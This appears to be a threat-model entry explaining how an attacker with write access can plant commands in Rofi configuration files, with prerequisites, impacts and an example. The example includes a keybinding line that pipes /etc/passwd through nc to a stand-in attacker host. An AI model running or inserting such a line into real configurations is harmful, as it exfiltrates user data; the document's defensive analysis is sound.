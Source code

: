 * **Description:** This is the pivotal point in the attack path where the attacker successfully embeds malicious commands within Rofi's configuration files. This is the direct action that enables the subsequent execution of those commands.
* **Attack Vector Details:** The attacker modifies Rofi's configuration files (e.g., `config.rasi`, custom theme files, or other configuration files depending on the application's usage of Rofi) to include commands they want to execute. This could involve:
    * **Modifying existing command options:**  Altering commands associated with specific actions or keybindings.
    * **Adding new malicious commands:**  Introducing new configuration entries that trigger the execution of malicious code.
    * **Leveraging scripting capabilities:** If Rofi supports scripting, injecting malicious code within scripts executed by Rofi.
* **Prerequisites:**
    * **Write access to Rofi's configuration directory and files.** The location of these files can vary depending on the operating system and Rofi's configuration. Common locations include `~/.config/rofi/` or `/etc/rofi/`.
    * **Knowledge of Rofi's configuration syntax and available options.** The attacker needs to understand how to inject commands that will be interpreted and executed by Rofi.
* **Impact:**
    * **Arbitrary Code Execution:** The injected commands will be executed with the privileges of the user running Rofi. This is the most significant impact.
    * **Data Exfiltration:**  Malicious commands can be used to steal sensitive data.
    * **System Manipulation:**  The attacker can modify system settings, install malware, or create new user accounts.
    * **Denial of Service:**  Commands can be injected to crash the application or the entire system.
    * **Privilege Escalation:** If Rofi is run with elevated privileges (though less common for application launchers), the attacker could potentially escalate their privileges.

**Example Scenario:**

Imagine an application uses Rofi to provide a custom menu. The configuration file might have an entry like:

```
configuration {
  ...
  kb-custom-1: "termite -e 'echo User selected: {selected-row}'";
  ...
}
```

An attacker could modify this to inject a malicious command:

```
configuration {
  ...
  kb-custom-1: "termite -e 'echo User selected: {selected-row} && nc attacker.com 4444 < /etc/passwd'";
  ...
}
```

Now, when the user triggers `kb-custom-1`, Rofi will not only echo the selected row but also attempt to send the contents of `/etc/passwd` to the attacker's server.
